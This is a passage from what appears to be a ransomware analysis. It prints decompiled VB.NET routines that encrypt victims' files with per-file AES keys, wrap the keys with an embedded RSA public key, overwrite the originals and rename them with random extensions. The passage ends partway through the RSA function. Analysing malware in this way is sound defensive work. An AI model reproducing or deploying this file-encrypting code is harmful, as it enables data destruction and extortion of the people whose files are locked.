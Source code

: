     -   If `flag` is `True` (which seems to be the case for the first file processed), the code writes a set of lines (`Program.messages`) to a new file in the directory. This file has the name contained in `Program.droppedMessageTextbox`.
    -   `flag` is then set to `False` to prevent adding the same message multiple times.

### Small Files Encrypting Process

```vbnet
Public Shared Sub EncryptFile(file As String)
	Dim array As Byte() = File.ReadAllBytes(file)
	Dim text As String = Program.CreatePassword(20)
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(text)
	Dim array2 As Byte() = Program.AES_Encrypt(array, bytes)
	File.WriteAllText(file, "<EncryptedKey>" + Program.RSAEncrypt(text, Program.rsaKey()) + "<EncryptedKey>" + Convert.ToBase64String(array2))
	File.Move(file, file + "." + Program.RandomStringForExtension(4))
End Sub

Public Shared Function CreatePassword(length As Integer) As String
	Dim stringBuilder As StringBuilder = New StringBuilder()
	Dim random As Random = New Random()
	While True
		Dim num As Integer = 0
		Dim num2 As Integer = length
		length = num2 - 1
		If num >= num2 Then
			Exit For
		End If
		stringBuilder.Append("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/"(random.[Next]("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/".Length)))
	End While
	Return stringBuilder.ToString()
End Function

Public Shared Function AES_Encrypt(bytesToBeEncrypted As Byte(), passwordBytes As Byte()) As Byte()
	Dim array As Byte() = Nothing
	Dim array2 As Byte() = New Byte() { 1, 2, 3, 4, 5, 6, 7, 8 }
	Using memoryStream As MemoryStream = New MemoryStream()
		Using rijndaelManaged As RijndaelManaged = New RijndaelManaged()
			rijndaelManaged.KeySize = 256
			rijndaelManaged.BlockSize = 128
			Dim rfc2898DeriveBytes As Rfc2898DeriveBytes = New Rfc2898DeriveBytes(passwordBytes, array2, 1000)
			rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8)
			rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8)
			rijndaelManaged.Mode = CipherMode.CBC
			Using cryptoStream As CryptoStream = New CryptoStream(memoryStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write)
				cryptoStream.Write(bytesToBeEncrypted, 0, bytesToBeEncrypted.Length)
				cryptoStream.Close()
			End Using
			array = memoryStream.ToArray()
		End Using
	End Using
	Return array
End Function

Public Shared Function RSAEncrypt(textToEncrypt As String, publicKeyString As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(textToEncrypt)
	Dim text2 As String
	Using rsacryptoServiceProvider As RSACryptoServiceProvider = New RSACryptoServiceProvider(1024)
		Try
			rsacryptoServiceProvider.FromXmlString(publicKeyString.ToString())
			Dim array As Byte() = rsacryptoServiceProvider.Encrypt(bytes, True)
```